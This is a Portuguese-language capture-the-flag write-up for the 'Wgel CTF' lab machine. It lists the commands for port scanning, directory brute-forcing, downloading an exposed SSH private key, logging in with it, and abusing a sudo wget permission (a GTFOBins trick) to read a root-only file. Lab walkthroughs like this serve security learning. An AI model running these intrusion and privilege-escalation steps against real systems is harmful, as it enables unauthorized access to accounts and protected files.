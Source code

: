 # Wgel CTF

* ### Scan de portas - Verificando quais portas estão abertas.
```bash
rustscan -a 10.10.123.77
```
![image](https://github.com/lufffe/Writeups/assets/90646635/c635c3af-1a56-4d3f-863b-27e0f0711767)

![image](https://github.com/lufffe/Writeups/assets/90646635/6f03c2bb-b1aa-40bb-b566-5c7a21c266ae)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 22,80 10.10.123.77
```
![image](https://github.com/lufffe/Writeups/assets/90646635/cc002ff2-bd02-4d2c-a35f-c58c0534ec60)

* ###  Scan de Arquivos e Diretórios.
```bash
gobuster dir -u http://10.10.123.77 -w directory-list-2.3-small.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/608779d0-aa59-4142-9cc7-9a92f32219a5)

* ### Verificando o que tem no HTTP e podemos ver um nome que pode ser de um usuário.
![image](https://github.com/lufffe/Writeups/assets/90646635/fad7bba1-0f46-4f31-b600-3746081ba512)

* ###  Scan de Arquivos e Diretórios na pasta "sitemap", e encontrando algo interessante.
```bash
gobuster dir -u http://10.10.123.77/sitemap/ -w big.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/03cb3dbd-e095-4c40-bb82-91e643825ad3)

* ###  Baixando a chave SSH encontrada.
```bash
wget http://10.10.123.77/sitemap/.ssh/id_rsa
```

* ###  Tentando descobrir a senha da chave SSH e vendo que não tem senha.
```bash
ssh2john id_rsa > hash 
```
![image](https://github.com/lufffe/Writeups/assets/90646635/ff866c5b-2dbe-4c33-a797-d8f37c72d4ff)

* ###  Dando permissão ao usuário na chave SSH.
```bash
chmod 600 id_rsa
```

* ###  Acessando via SSH.
```bash
ssh -i id_rsa jessie@10.10.123.77
```
![image](https://github.com/lufffe/Writeups/assets/90646635/89f06619-de9e-4427-bd1f-15205821bcbf)

* ###  Na pasta Documentos vai ter a flag.
```bash
cat user_flag.txt
```

* ###  Buscando um ponto para escalar o usuário.
```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/90427135-9f4c-4ccf-a02c-c9545b31fd89)

* ###  Gtfobins.
![image](https://github.com/lufffe/Writeups/assets/90646635/8b73ac32-a755-4208-ba53-1a713b68efed)

* ###  Pegando a flag de Root.
```bash
sudo /usr/bin/wget -i /root/root_flag.txt
```
